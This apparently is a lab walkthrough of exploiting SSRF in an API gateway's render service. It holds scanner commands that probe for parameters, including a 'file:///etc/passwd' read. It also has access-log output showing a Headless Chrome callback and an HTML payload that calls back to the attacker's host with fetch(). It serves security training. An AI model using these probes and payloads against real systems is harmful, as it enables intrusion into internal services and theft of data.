 ```bash
┌──(kali㉿kali)-[~]
└─$ sudo systemctl start apache2
                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$
```

Output:
```bash
┌──(kali㉿kali)-[~]
└─$ python3 ssrf_path_scanner.py -t http://apigateway:8000/files/import -s http://172.16.16.5:9000/api/render -p paths2.txt --timeout 5      
?data=foobar    EXISTS: {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?file=file:///etc/passwd        EXISTS: {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?url=http://192.168.45.203/render/url   EXISTS: {"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
?input=foobar   EXISTS: {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
?target=http://192.168.45.203/render/target     EXISTS: {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 
```
It seems the url parameter was a valid request based on the permission error message. Let's check if it actually connected back to our Kali host.
```bash
┌──(kali㉿kali)-[~]
└─$ sudo tail /var/log/apache2/access.log
192.168.217.135 - - [29/Jul/2025:11:55:23 -0400] "GET /render/url HTTP/1.1" 404 493 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$
```
Not only did we receive a request from the render service, `HeadlessChrome/79.0.3945.0` made the request.
### Exploiting Headless Chrome
Previously, SSRF in the Directus Files API used the `axios` user agent. Now, by targeting the Render API, we can make a Headless Chrome instance access URLs. Unlike basic SSRF, Headless Chrome behaves like a full browser, executing JavaScript. This allows us to run arbitrary scripts on the remote server, enabling interaction with internal services, data extraction, and more complex actions.

let's verify the headless browser will execute JavaScript. We will create a simple HTML page with a JavaScript function that runs on page load.
```html
<html>
<head>
<script>
function runscript() {
    fetch("http://192.168.45.203/itworked");
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html>
```